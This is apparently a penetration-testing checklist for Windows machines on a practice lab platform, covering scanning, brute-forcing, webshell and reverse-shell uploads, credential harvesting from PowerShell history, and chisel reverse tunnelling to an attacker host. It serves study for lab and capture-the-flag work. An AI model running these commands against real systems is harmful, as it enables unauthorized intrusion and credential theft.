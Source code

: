 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Windows

{% hint style="info" %}
Based on the following PG Practice boxes: Algernon, AuthBy, Billyboss, Craft, DVR4, Fish, Hepet, Internal, Jacko, Kevin, MedJed, Mice, Monster, Nickel, Slort, Squid, Shenzi.
{% endhint %}

## Foothold

<details>

<summary>Port Scan</summary>

The `nmap-scan` script can be found [here](https://github.com/CSpanias/ctf-scripts/tree/main?tab=readme-ov-file#nmap-scansh).

```bash
sudo nmap-scan <target-IP>
```

</details>

<details>

<summary>HTTP(S)</summary>

* [ ] [Dirbust](../../web/dirbusting.md) HTTP(S) ports with a [directory list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-directories.txt) (plus server-specific extensions) and a [file list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-files.txt)&#x20;

{% code overflow="wrap" %}
```bash
# Dirbust with a directory list
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ic -ac -c -u http://access/FUZZ -e .aspx,.php,
​
​# Dirbust with a file list
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -ic -ac -c -u http://access/FUZZ
```
{% endcode %}

* [ ] [File Uploads](https://x7331.gitbook.io/boxes/web/file-uploads)
* [ ] Default/Weak Creds

```bash
uv run creds search <appName>
```

* [ ] BFA

{% code overflow="wrap" %}
```bash
# POST request
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt 'http-post-form://target:8081/login.aspx:username=^USER^&password=^PASS^:F=403'

# POST request (base64-encoded credentials)
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt 'http-post-form://target:8081/login.aspx:username=^USER64^&password=^PASS64^:F=403'
```
{% endcode %}

* [ ] PoCs
  * [ ] RCE, LFI

```bash
# CLI tool
searchsploit <appName> <version>

# Google dork
site:github.com <appName> exploit poc
```

* [ ] [WebDAV](https://x7331.gitbook.io/boxes/web/webdav)

{% code overflow="wrap" %}
```bash
# Connect to WebDAV
cadaver http://x7331
Authentication required for hutch on server 'x7331':
Username: x7331
Password:
# Upload a webshell
dav:/> put /usr/share/webshells/aspx/cmdasp.aspx cmdasp.aspx

# Upload a webshell directly
curl -T '/home/kali/shell.aspx' 'http://192.168.64.122/' -u x7331:Pass123!
```
{% endcode %}

* [ ] [Custom wordlists](https://x7331.gitbook.io/boxes/tools/wordlists)

```bash
# Create a userlist based on the site users
username-anarchy -i site_users > anarchy_output

# Create a passlist based on the site content
cewl --write cewl_output http://192.168.202.21/
```

</details>

<details>

<summary><a href="../../services/shares/smb-139-445.md#usage">SMB</a></summary>

* [ ] List and enumerate shares

{% code overflow="wrap" %}
```bash
# List shares and permissions
uv run nxc smb DC01 -u celia.almeda -p 7k8XHk3dMtmpnC7 --shares

# Download the target share
nxc smb MS02 -u x7331 -p Pass123! -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./ MAX_FILE_SIZE=99999999
```
{% endcode %}

* [ ] `WRITE` access ([steal hashes](https://x7331.gitbook.io/boxes/services/tcp/shares/139-445-smb#hashes))

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/shares/21-ftp">FTP</a></summary>

* [ ] Anonymous login

{% code overflow="wrap" %}
```bash
# Anonymous login
ftp anonymous@target
ftp ftp@target
```
{% endcode %}

* [ ] BFA

```bash
hydra -l <user> -P <passlist> ftp://<target>
```

* [ ] Enumerate directories

```bash
# Download dir
wget -r ftp://ftp@target_directory
```

* [ ] Upload files

```bash
ftp> put revshell_ivan.php
```

</details>

## Privilege Escalation

<details>

<summary>User Context</summary>

* [ ] [Privileges](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/privilege-escalation/privileges) (if GUI access check for [token elevation](../../)) and [Groups](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/privilege-escalation/groups)

```powershell
# User's privileges
whoami /priv

# User's groups
whoami /groups
```

* [ ] [PS History](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/host-recon#files)

{% code overflow="wrap" %}
```powershell
# History files of all host's users (assuming default path)
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```
{% endcode %}

</details>

<details>

<summary>Host Enumeration</summary>

* [ ] [WinPEAS](https://x7331.gitbook.io/boxes/tl-dr/infra/infra-tools/pe-scripts#windows)
* [ ] Kernel

```powershell
systeminfo
```

* [ ] [Local Services](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/host-recon#system)

```bash
# Start the chisel server on the attacking host
./chisel server -p 8000 --reverse
```

```powershell
# Connect from the target host
.\chisel.exe client 192.168.45.157:8000 R:6033:127.0.0.1:3306
```

```bash
# Enumerate the forwarded port
mysql -h 127.0.0.1 -P 6033 -u root
```

</details>

<details>

<summary><a href="../../services/shares/smb-139-445.md#usage">SMB</a></summary>

* [ ] List and enumerate shares

{% code overflow="wrap" %}
```bash
# List shares and permissions
uv run nxc smb DC01 -u celia.almeda -p 7k8XHk3dMtmpnC7 --shares

# Download the target share
nxc smb MS02 -u x7331 -p Pass123! -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./ MAX_FILE_SIZE=99999999
```
{% endcode %}

* [ ] `WRITE` access ([steal hashes](https://x7331.gitbook.io/boxes/services/tcp/shares/139-445-smb#hashes))

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/dbms/sql/1433-mssql">MSSQL</a></summary>

* [ ] Enumerate tables
* [ ] Links
* [ ] Users
* [ ] xp\_cmdshell
  * [ ] Host enumeration

</details>
